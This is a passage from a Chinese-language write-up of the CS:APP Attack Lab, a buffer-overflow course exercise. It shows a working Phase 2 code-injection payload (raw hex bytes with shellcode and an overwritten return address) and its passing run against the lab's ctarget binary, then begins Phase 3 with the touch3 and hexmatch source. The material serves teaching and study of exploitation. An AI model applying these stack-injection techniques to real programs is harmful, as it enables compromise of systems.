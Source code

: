 #### 结果

~~~bash
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw < phase2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
~~~

***

### Phase 3

#### 要求

- **本题与上题类似，不同点在于传的参数是一个字符串。**

~~~C
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
~~~

**`touch3`中调用了`hexmatch`，它的C语言代码为：**

~~~C
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
    /* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
~~~

#### 思路

- **注意`s`的位置是随机的，我们写在`getbuf`栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。**
